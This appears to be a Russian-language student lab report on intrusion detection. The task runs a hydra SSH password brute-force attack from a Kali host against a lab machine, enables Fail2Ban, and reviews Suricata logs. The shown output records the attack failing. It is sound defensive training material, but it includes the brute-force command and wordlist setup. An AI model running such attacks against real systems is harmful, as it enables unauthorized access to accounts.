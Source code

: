 - Логи явно указывают на подозрительную активность и возможное сканирование известных портов на которых слушают приложения. 
- Эти события классифицированы как "Potentially Bad Traffic" с приоритетом 2, что указывает на потенциально опасный трафик, но не на явную угрозу.

------

## Задание 2

Проведите атаку на подбор пароля для службы SSH:

**hydra -L users.txt -P pass.txt < ip-адрес > ssh**

1. Настройка **hydra**: 
 
 - создайте два файла: **users.txt** и **pass.txt**;
 - в каждой строчке первого файла должны быть имена пользователей, второго — пароли. В нашем случае это могут быть случайные строки, но ради эксперимента можете добавить имя и пароль существующего пользователя.

Дополнительная информация по **hydra**: https://kali.tools/?p=1847.

2. Включение защиты SSH для Fail2Ban:

-  открыть файл /etc/fail2ban/jail.conf,
-  найти секцию **ssh**,
-  установить **enabled**  в **true**.

Дополнительная информация по **Fail2Ban**:https://putty.org.ru/articles/fail2ban-ssh.html.

*В качестве ответа пришлите события, которые попали в логи Suricata и Fail2Ban, прокомментируйте результат.*

### Решение

#### Запуск атаки с Kali-хоста:

```bash
┌──(root㉿kali)-[/home/kali]
└─# hydra -L user.txt -P pass.txt 192.168.1.15 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-31 15:43:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 35 login tries (l:5/p:7), ~3 tries per task
[DATA] attacking ssh://192.168.1.15:22/
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
[INFO] Writing restore file because 2 server scans could not be completed
[ERROR] 1 target was disabled because of too many errors
[ERROR] 1 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-31 15:43:37
```
